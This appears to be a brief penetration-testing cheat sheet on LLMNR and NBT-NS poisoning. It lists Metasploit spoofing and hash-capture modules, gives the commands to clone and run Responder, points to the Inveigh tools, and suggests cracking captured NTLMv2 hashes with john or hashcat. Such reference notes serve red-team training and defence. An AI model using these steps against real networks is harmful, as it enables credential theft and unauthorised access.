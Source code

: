# LLMNR / NBT NS Spoofing

## Metasplpoit

`auxiliary/spoof/llmnr/llmnr_response`   
`auxiliary/spoof/nbns/nbns_response` 

Capture the hashes: 

`auxiliary/server/capture/smb`   
`auxiliary/server/capture/http_ntlm` 

You’ll end up with NTLMv2 hash, use john or hashcat to crack it. 

## Responder

Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and Basic HTTP authentication.

```text
git clone https://github.com/lgandx/Responder 
python Responder.py -i local-ip -I eth0 
```

## C\# version 

{% embed url="https://github.com/Kevin-Robertson/InveighZero/blob/master/README.m" %}

## Inveigh

Windows PowerShell ADIDNS/LLMNR/mDNS/NBNS spoofer/man-in-the-middle tool

Link: [https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)



